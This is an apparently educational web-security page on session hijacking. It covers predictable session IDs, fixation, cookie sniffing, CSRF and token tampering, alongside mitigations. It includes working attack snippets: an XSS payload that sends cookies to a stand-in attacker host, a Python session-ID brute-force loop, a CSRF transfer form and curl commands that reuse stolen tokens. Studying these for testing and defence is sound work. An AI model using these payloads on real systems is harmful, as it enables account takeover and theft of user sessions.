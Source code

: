 # Session Security

#### Session Security and Advanced Session Hijacking Exploits

A user session bridges multiple interactions between a client and server using a unique session identifier (session ID). Securing sessions is paramount, as compromised sessions can lead to complete account takeovers or even further lateral movement within a target system. Let’s dive into deeper insights, examples, and some advanced tricks.

***

#### **Session ID Weaknesses**

1. **Predictable Session IDs**\
   Some poorly designed applications generate session IDs with predictable patterns, such as sequential numbering, timestamps, or weak cryptographic randomization.
   *   Example of predictable generation:

       ```plaintext
       Session ID: user001, user002, user003
       Session ID: 202311181230
       ```
   *   Exploit: An attacker might brute-force predictable IDs using tools like **Burp Suite Intruder**:

       ```plaintext
       Intruder Payload: Session IDs 202311181230 to 202311181259
       ```
2. **Session IDs Exposed in URLs**\
   When session IDs are passed in the URL as query parameters (`example.com/dashboard?session_id=abc123`), they may get logged in server logs, shared in referrer headers, or stored in browser history.
   *   Exploit Trick: Craft a phishing email embedding a malicious link:

       ```plaintext
       https://vulnerable-site.babelpentest.net/dashboard?session_id=<victim_id>
       ```
3. **Reuse of Session Tokens After Logout**\
   If an application doesn’t properly invalidate a session on logout, attackers can reuse the token even after a legitimate user logs out.
   * Example:
     * Legitimate user logs out.
     *   Attacker reuses the same session token (`auth-token=abc123`) via `curl`:

         ```bash
         curl -H "Cookie: auth-token=abc123" https://secure.babelpentestlab.net/user-panel
         ```

***

#### **Advanced Session Hijacking Techniques**

**1. Session Fixation**

Attackers set the victim's session ID to a known value before the victim logs in, allowing attackers to impersonate them after authentication.

* **Steps**:
  1.  Attacker forces a victim to use a predetermined session ID via phishing or XSS:

      ```javascript
      document.cookie = "PHPSESSID=attackerknownid; path=/;";
      ```
  2. Victim logs into the site, unaware that the attacker is already authenticated with the same session ID.
  3.  Attacker accesses the victim's session:

      ```bash
      curl -H "Cookie: PHPSESSID=attackerknownid" https://vulnerable-site.babelpentestlab.net/user-dashboard
      ```

**2. Cookie Sniffing via Man-in-the-Middle (MITM)**

If cookies are not transmitted over HTTPS, they are vulnerable to interception:

* **Tooling Example**:
  * Use `Wireshark` to capture unencrypted traffic.
  * Filter HTTP requests for `Set-Cookie` headers.
* **Mitigation**: Ensure cookies are marked `Secure` and enforce HTTPS.

**3. Exploiting XSS for Session Theft**

When combined with XSS vulnerabilities, session hijacking becomes even more devastating.

*   Example Payload:

    ```javascript
    <script>
    fetch('http://attacker.babelpentestlab.net/steal?c=' + document.cookie);
    </script>
    ```
* Mitigation:
  *   Use `Content Security Policy (CSP)` headers to limit scripts:

      ```plaintext
      Content-Security-Policy: script-src 'self';
      ```

**4. Session Side-Jacking with Tools**

If no additional protections like HSTS (HTTP Strict Transport Security) are in place, attackers can exploit cookies via popular tools:

* **Tools**:
  * **Firesheep**: Captures cookies over unsecured Wi-Fi networks.
  * **Bettercap**: For advanced MITM attacks on HTTPS traffic.

***

#### **Browser Storage and Session Exposure**

**localStorage vs sessionStorage vs Cookies**

1. **Cookies**:
   * Pros: Sent with every HTTP request (easy for server-side validation).
   * Cons: Vulnerable to XSS and requires secure flags.
2. **localStorage**:
   * Persistent across sessions.
   * Should **never** be used to store sensitive data like session tokens.
   *   Example Risk:

       ```javascript
       localStorage.setItem('auth-token', 'abc123');
       ```
3. **sessionStorage**:
   * Resets on browser close but still exposed to XSS attacks.

**Tips for Developers:**

*   Use `HttpOnly`, `Secure`, and `SameSite` cookie attributes:

    ```plaintext
    Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict;
    ```

***

#### **Session Expiry and Refresh**

1. **Short Expiry Times**: Expiring sessions after a short time of inactivity limits the attack window.\
   Example Configuration:
   *   Set session timeout to 15 minutes:

       ```php
       ini_set('session.gc_maxlifetime', 900);
       ```
2.  **Session Re-Randomization**: Rotate session IDs after login or privilege escalation:

    ```php
    session_regenerate_id(true);
    ```

***

#### **Testing Tools for Session Security**

1. **Burp Suite**:
   * Use the **Session Token Analysis** tool to test randomness and length.
   * Capture and manipulate cookies via the **Proxy** tab.
2. **OWASP ZAP**:
   * Active scan to identify unprotected cookies or insecure storage.
3.  **Custom Python Script for Brute-Forcing Session Tokens**:

    ```python
    import requests

    base_url = "https://vulnerable-site.babelpentestlab.net"
    for i in range(1000, 1100):
        cookies = {"session_id": str(i)}
        response = requests.get(base_url, cookies=cookies)
        if "Welcome Back" in response.text:
            print(f"Valid Session ID Found: {i}")
            break
    ```

***

#### **Advanced Tricks**

1. **CSRF + Session Hijacking**: Combine CSRF (Cross-Site Request Forgery) with weak session handling:
   *   Force victim to perform actions while using a hijacked session:

       ```html
       <form action="https://secure.babelpentestlab.net/transfer" method="POST">
           <input type="hidden" name="amount" value="1000">
           <input type="hidden" name="recipient" value="attacker">
           <input type="submit">
       </form>
       ```
2. **Privilege Escalation via Session Tokens**:
   *   Some applications encode roles in tokens:

       ```plaintext
       session_token=eyJ1c2VyIjoiYWRtaW4ifQ==
       ```
   *   Decode and modify the token (`admin` → `superuser`):

       ```bash
       echo "eyJ1c2VyIjoiYWRtaW4ifQ==" | base64 -d
       ```
3. **Subdomain Enumeration for Session Sharing**:
   *   Test subdomains for cookie sharing:

       ```bash
       subfinder -d babelpentestlab.net | httpx --status-code
       ```
4.  **Cookie Path Exploitation**: Misconfigured `Path` attributes allow token reuse on unintended endpoints:

    ```plaintext
    Set-Cookie: auth=abc123; Path=/api/v1/
    ```

    *   Access admin functions directly:

        ```bash
        curl -H "Cookie: auth=abc123" https://babelpentestlab.net/api/v1/admin
        ```
